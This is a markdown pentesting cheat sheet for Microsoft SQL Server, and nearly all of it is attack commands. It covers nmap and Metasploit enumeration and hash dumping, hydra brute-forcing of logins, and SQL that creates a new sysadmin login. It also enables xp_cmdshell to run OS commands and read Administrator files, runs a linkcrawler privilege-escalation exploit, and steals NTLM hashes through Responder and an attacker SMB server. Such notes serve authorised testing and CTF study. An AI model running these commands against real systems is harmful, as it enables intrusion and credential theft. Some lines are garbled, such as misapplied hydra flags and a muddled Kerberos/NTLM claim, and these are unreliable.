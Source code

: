 ```yaml
---
title: MSSQL (Microsoft SQL) Pentesting
description: MSSQL is a relational database management system. A default port is 1433.
tags:
    - Database
    - Windows
refs:
    - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
date: 2023-06-23
draft: false
---
```


## Enumeration

```sh
nmap --script ms-sql-info -p 1433 <target-ip>
nmap --script ms-sql-config -p 1433 <target-ip>
nmap --script ms-sql-empty-password,ms-sql-xp-cmdshell -p 1433 <target-ip>
nmap --script ms-sql-* -p 1433 <target-ip>

# Metasploit
msfconsole
msf> use admin/mssql/mssql_enum
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump
```

### Brute Force Credentials

```sh
hydra -L usernames.txt –p password <target-ip> mssql
hydra -l username –P passwords.txt <target-ip> mssql
```

<br />

## Connect

```sh
# impacket
impacket-mssqlclient -port 1433 DOMAIN/username:password@<target-ip>
impacket-mssqlclient -port 1433 DOMAIN/username:password@<target-ip> -windows-auth

# sqsh
sqsh -S <target-ip> -U username -P password
sqsh -S <target-ip> -U username -P password -D database
```

<br />

## Commands

```sh
# Get all users
> SELECT * FROM sys.database_principals

# Switch to the database
> USE <database>

# Get databases
> SELECT * FROM master.dbo.sysdatabases

# List tables
> SELECT * FROM information_schema.tables

# Get table content
> SELECT * FROM <database_name>.dbo.<table_name>

# Get the version of MSSQL
> SELECT @@version

# Check if the current user have permission to execute OS command
> USE master
> EXEC sp_helprotect 'xp_cmdshell'

# Get linked servers
> EXEC sp_linkedservers
> SELECT * FROM sys.servers

# Create a new user with sysadmin privilege
> CREATE LOGIN tester WITH PASSWORD = 'password'
> EXEC sp_addsrvrolemember 'tester', 'sysadmin'

# Get current username
> SELECT user_name()
```

<br />

## Spawn a Windows Command Shell and Run Commands using Impacket

If we connected MSSQL using **impacket**, we can exeucte the Windows Shell Commands by **"enable_xp_cmdshell"**.

### Enable/Disable a Windows Shell

```powershell
> enable_xp_cmdshell
> disable_xp_cmdshell
```

### Commands

We can execute commands the same as Windows Command Prompt.

```powershell
# Get current user
> xp_cmdshell whoami

# Show files and directories
> xp_cmdshell dir
> xp_cmdshell dir \Users
# Show hidden files
> xp_cmdshell dir /a

# Get current directory
> xp_cmdshell cd

# Get contents of file
> xp_cmdshell more \Users\Administrator\example.txt
> xp_cmdshell type \Users\Administrator\example.txt
```

<br />

## Privilege Escalation

```bash
msfconsole
msf> use exploit/windows/mssql/mssql_linkcrawler
```

<br />

## Get NTLM Hash

MSSQL uses **Keberos** to authenticate users so we can retrieve the NTLM hash.

### 1. Start SMB Server and Responder

First we need to start a SMB server and Responder in each terminal.

```bash
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```

### 2. Execute with Metasploit

In msfconsole, select the following module.

We need to set the “SMBPROXY” option to the Responder IP (this ip is displayed when starting Responder in terminal).

```bash
msfconsole
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
msf> set rhosts <target_ip>
msf> set username <username>
msf> set password <password>
msf> set smbproxy <responder_ip>
msf> run
```

When executing, we can see the NTLM hash in the terminal where SMB server is running.